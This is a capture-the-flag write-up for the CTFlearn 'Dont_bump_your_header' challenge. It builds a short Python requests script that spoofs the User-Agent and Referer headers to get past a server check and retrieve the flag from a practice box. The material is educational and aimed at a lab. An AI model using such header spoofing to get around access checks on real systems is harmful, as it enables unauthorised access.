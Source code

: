 # Writeup for [Dont\_bump\_your\_header](https://ctflearn.com/challenge/109) Box

When we open the provided link, we get an error message...  
![](./img/1.jpg)  

This speaks of a User-Agent which is part of an HTTP Header. When we take a look at the source code, we can clearly see a comment that we can potentially use for the User-Agent.  
We could use the curl command to spoof our User-Agent but I feel like creating an exploit script for this box to sharpen my programming skills. I am going to use [Python](https://www.python.org/) and the built-in requests module.  

First of all, lets create a basic script to do a GET request on the website.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

s = requests.get(url)

print(s.text)
```  

When we run this script, we should be able to see the same error message we got when accessing the website. Since we got that comment from the source code, we should try to use that as our User-Agent.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'
user_agent = 'Sup3rS3cr3tAg3nt'

headers = {
        'User-Agent' : user_agent,
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

When we run this script, we get another error...  
![](./img/2.jpg)  
I got super confused and tried to manipulate the User-Agent but it seemed that it works. So what was the issue? When you read the error message carefully, it says that we did not come from `awesomesauce.com`. There is an entry called 'Referer' on an HTTP Header that denotes where the request came from, so we can set this Referer entry to be `awesomesauce.com`.  
This is what the final script should look like  

```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

user_agent = 'Sup3rS3cr3tAg3nt'
referer = 'awesomesauce.com'

headers = {
        'User-Agent' : user_agent,
        'Referer'   : referer
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

Run the script and get that flag.
